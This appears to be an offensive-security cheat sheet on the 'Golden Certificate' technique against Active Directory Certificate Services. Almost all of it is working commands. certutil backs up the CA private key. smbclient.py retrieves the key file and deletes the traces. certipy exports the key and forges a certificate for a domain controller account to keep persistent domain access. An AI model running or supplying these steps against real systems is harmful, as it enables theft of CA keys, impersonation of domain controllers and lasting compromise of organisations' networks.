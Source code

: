 ```yaml
---
description: THEFT3 + DPERSIST1
---
```


# Golden Certificate

Backup and extract manually:

```
Cmd > certutil.exe -backupkey -f -p Passw0rd! C:\Windows\CABackup
$ smbclient.py -k -no-pass CA01.megacorp.local
# use c$
# cd windows/CABackup
# get CorpCA.p12
# rm CorpCA.p12
# cd ..
# rmdir CABackup
```

P12 to PFX:

```
$ certipy cert -pfx CorpCA.p12 -password 'Passw0rd!' -export -out CorpCA.pfx
```

Get CRL from the DC:

```
$ </dev/null openssl s_client -connect <DC_IP>:636 | openssl x509 > dc.crt
```




## Certipy

```
$ certipy ca -backup -ca CorpCA -k -no-pass -target CA01.megacorp.local -dc-ip 192.168.1.11 -ns 192.168.1.11
$ certipy forge -ca-pfx CorpCA.pfx -upn 'DC01$@megacorp.local' (or -dns DC01.megacorp.local) -subject 'CN=DC01,OU=Domain Controllers,DC=megacorp,DC=local' -crl 'ldap://***'
```
